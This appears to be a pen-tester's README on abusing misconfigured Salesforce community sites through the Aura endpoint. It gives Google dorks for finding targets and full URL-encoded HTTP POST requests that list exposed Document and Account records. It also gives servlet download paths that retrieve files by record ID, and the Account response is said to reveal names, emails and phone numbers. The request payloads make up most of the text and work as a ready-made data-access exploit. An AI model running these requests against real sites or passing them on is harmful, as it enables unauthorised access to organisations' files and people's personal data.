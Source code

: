 # Salesforce-Misconfigured-Objects

Permissions are set for objects, fields and records separately. Out of the three, we as pen-testers really care about the record permissions because they are the real data.

#### Google Dork
```
inurl:/s/topic 
inurl:/s/article
inurl:/s/contactsupport
```

#### Aura Paths
The applicaiton needs to use Salesforce programming technologies like Aura components for it to be vulnerable to "Improper Authorization". If one of the HTTP POST requests are visiable, then  there is a possibility for an Improper Authorisation vulnerability.
```
/s/sfsites/aura  
/aura  
/sfsites/aura
```

Aura can be identified using the Google Dorks above or with this Nuclei template which checks for the Aura HTTP Paths above: https://github.com/projectdiscovery/nuclei-templates/blob/master/misconfiguration/salesforce-aura.yaml

---

## 1) Exposed `Document` Object
![image](https://user-images.githubusercontent.com/25315255/206927978-016973aa-72db-44af-92bb-327f0c913547.png)

#### Request
This is the request being made when the exposed `Document` object is detected. Open Burp and make the same request but change the value {{hostname}}. 
```
POST /s/sfsites/aura HTTP/2
Host: {{hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Content-Type: application/x-www-form-urlencoded;charset=UTF-8

message=%7b%22actions%22%3a%5b%7b%22id%22%3a%22123%3ba%22%2c%22descriptor%22%3a%22serviceComponent%3a%2f%2fui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController%2fACTION%24getItems%22%2c%22callingDescriptor%22%3a%22UNKNOWN%22%2c%22params%22%3a%7b%22entityNameOrId%22%3a%22Document%22%2c%22layoutType%22%3a%22FULL%22%2c%22pageSize%22%3a100%2c%22currentPage%22%3a0%2c%22useTimeout%22%3afalse%2c%22getCount%22%3afalse%2c%22enableRowActions%22%3afalse%7d%7d%5d%7d&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22tr2UlkrAHzi37ijzEeD2UA%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%22K0V8802f_xC9u_ipYQN2Rg%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Afalse%7D&aura.token=null
```

#### Response
The response will contain a list of `records`. These records will have `Id`'s that can be put into any of the following URLs to potentially expose sensitive information:
```
/servlet/servlet.FileDownload?file=ID
/sfc/servlet.shepherd/document/download/ID
/sfc/servlet.shepherd/version/download/ID
```
![image](https://user-images.githubusercontent.com/25315255/206928377-9e8336eb-d85b-4529-af0f-3e61f7dc327c.png)

*Example*
```
https://example.com/servlet/servlet.FileDownload?file=0152E000002svDVQAY
```

## 2) Exposed `Account` Object
![image](https://user-images.githubusercontent.com/25315255/206928644-14837312-d184-48a0-b9a0-d3171d4af49d.png)

#### Request
This is the request being made when the exposed `Document` object is detected. Open Burp and make the same request but change the value {{hostname}}. 
```
POST /s/sfsites/aura HTTP/2
Host: {{hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Content-Type: application/x-www-form-urlencoded;charset=UTF-8

message=%7b%22actions%22%3a%5b%7b%22id%22%3a%22123%3ba%22%2c%22descriptor%22%3a%22serviceComponent%3a%2f%2fui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController%2fACTION%24getItems%22%2c%22callingDescriptor%22%3a%22UNKNOWN%22%2c%22params%22%3a%7b%22entityNameOrId%22%3a%22Account%22%2c%22layoutType%22%3a%22FULL%22%2c%22pageSize%22%3a100%2c%22currentPage%22%3a0%2c%22useTimeout%22%3afalse%2c%22getCount%22%3afalse%2c%22enableRowActions%22%3afalse%7d%7d%5d%7d&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22tr2UlkrAHzi37ijzEeD2UA%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%22K0V8802f_xC9u_ipYQN2Rg%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Afalse%7D&aura.token=null
```

#### Response
The response will contain a list of `records`. These records can expose names, email addresses, phone numbers, and more. 
![image](https://user-images.githubusercontent.com/25315255/206928857-f2d50153-86f1-429c-8e69-2a839a64d882.png)

*Note*
I'm not sure if the email's exposed are customer emails or employee emails. If someone knows, please let me know.
![image](https://user-images.githubusercontent.com/25315255/206928916-523c1e36-15f0-4f7a-a5e5-ac992648d97f.png)

